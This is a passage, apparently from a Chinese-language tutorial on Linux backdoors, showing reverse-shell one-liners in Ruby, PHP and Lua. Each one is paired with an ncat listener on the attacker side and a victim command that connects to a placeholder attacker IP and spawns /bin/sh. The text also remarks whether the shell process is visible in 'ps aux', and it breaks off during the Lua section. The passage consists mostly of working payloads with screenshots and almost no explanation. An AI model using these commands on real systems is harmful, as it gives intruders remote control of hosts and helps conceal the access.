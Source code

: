 ```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
ruby -rsocket -e'f=TCPSocket.open("[ATTACKER-IP]",10000).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-7.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-6.png)

反弹shell进程在`ps aux`中不能检索到。

**原理**

## 0x06 反弹shell：php

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
php -r '$sock=fsockopen("[ATTACKER-IP]",10000);exec("/bin/sh -i <&3 >&3 2>&3");'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-9.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-8.png)

反弹shell进程在`ps aux`中可以检索到。

注：代码假设TCP连接的文件描述符为`3`。

**原理**

## 0x07 反弹shell：lua

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
lua -e "require('socket');require('os');t=socket.tcp();t:connect('[ATTACKER-IP]','10000');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

靶机上没有`lua`，我用

```bash
apt-get install lua5.2
```
